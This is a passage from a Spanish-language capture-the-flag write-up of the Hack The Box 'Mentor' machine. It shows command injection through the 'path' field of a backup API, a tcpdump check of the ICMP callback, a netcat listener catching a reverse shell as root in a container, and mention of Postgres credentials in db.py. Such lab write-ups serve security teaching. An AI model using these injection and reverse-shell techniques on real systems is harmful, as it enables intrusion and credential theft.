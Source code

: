 Vemos dos directorios **/check y /backup**, no centraremos en **backup**, que enviaremos por **POST**
Como vemos que las respuestas nos las esta dando en **json** le enviaremos una cadnea vacia para tantear que pasa.

![jsonPOST]({{'/assets/img/Mentor/jsonPOST.png' | relative_url}})

Y bien nos pide que tiene que ser enviado con dos dato **"body y path"**. Enviamos lo que pide.

![data]({{'/assets/img/Mentor/datajson.png' | relative_url}})

Hagamos pruebas manipulando los campos para ver que obtenemos.
![traza]({{'/assets/img/Mentor/icmp.png' | relative_url}})
```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:08:19.642230 IP mentorquotes.htb > 4k4Hack: ICMP echo request, id 9728, seq 0, length 64
21:08:19.642271 IP 4k4Hack > mentorquotes.htb: ICMP echo reply, id 9728, seq 0, length 64
21:08:20.643951 IP mentorquotes.htb > 4k4Hack: ICMP echo request, id 9728, seq 1, length 64
21:08:20.643972 IP 4k4Hack > mentorquotes.htb: ICMP echo reply, id 9728, seq 1, length 64
21:08:21.643011 IP mentorquotes.htb > 4k4Hack: ICMP echo request, id 9728, seq 2, length 64
21:08:21.643040 IP 4k4Hack > mentorquotes.htb: ICMP echo reply, id 9728, seq 2, length 64
```
Enviamos **4 trazas icmp** a nuestro equipo y tenemos conectivida.
<p>El campo **path** podemo inyectar comandos, procederemos crear una revers-shell a nuestro equipo utilizando el comando **mkfifo**</p>

Aqui puedes ver informacion -> [mkfifo enlace](https://www.reydes.com/d/?q=Crear_un_Shell_Inverso_utilizando_mkfifo)
Al nuestra linea tendremos que cambiarla un poco con respecto al articulo anterior.
![conect]({{'/assets/img/Mentor/conection.png' | relative_url}})


Ganamos acceso estando como **root** pero es un contenedor, tendremos que buscar la manera de saltar a la maquina real.

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.193] 45577
sh: can't access tty; job control turned off
```
```bash
whoami
root
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:16:00:03  
          inet addr:172.22.0.3  Bcast:172.22.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:554 errors:0 dropped:0 overruns:0 frame:0
          TX packets:577 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:58238 (56.8 KiB)  TX bytes:60325 (58.9 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
En el directorio **/app** encontramos un archivo llamado ***db.py** que si lo miramos detenidamente vemos que tiene las credenciales de la **basede de datos postgres**
```bash
```